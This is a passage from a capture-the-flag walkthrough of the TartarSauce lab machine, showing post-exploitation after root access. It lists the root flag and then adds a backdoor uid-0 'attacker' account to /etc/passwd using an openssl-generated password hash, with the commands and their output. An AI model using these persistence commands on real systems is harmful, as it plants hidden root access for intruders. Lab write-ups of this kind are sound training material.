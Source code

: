 bash-4.3# whoami
whoami
root
bash-4.3#
```

Now we can finally get the flag

```
root@TartarSauce:/# ls -al /root/root.txt
ls -al /root/root.txt
-r-------- 1 root root 33 Feb  9  2018 /root/root.txt
```

Also to have easier access to root level later on we can add a new user with the privileges

```
bash-4.3# openssl passwd -1 123456
$1$8z5VP0Cz$dl4f/98Ur.Dd/GegAjodl.
bash-4.3# echo 'attacker:$1$8z5VP0Cz$dl4f/98Ur.Dd/GegAjodl.:0:0:attacker:/root:/bin/bash' >> /etc/passwd
bash-4.3# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
attacker:$1$8z5VP0Cz$dl4f/98Ur.Dd/GegAjodl.:0:0:attacker:/root:/bin/bash
bash-4.3# su attacker
su attacker
Password: 123456

root@TartarSauce:/home/onuma# id
id
uid=0(root) gid=0(root) groups=0(root)
```

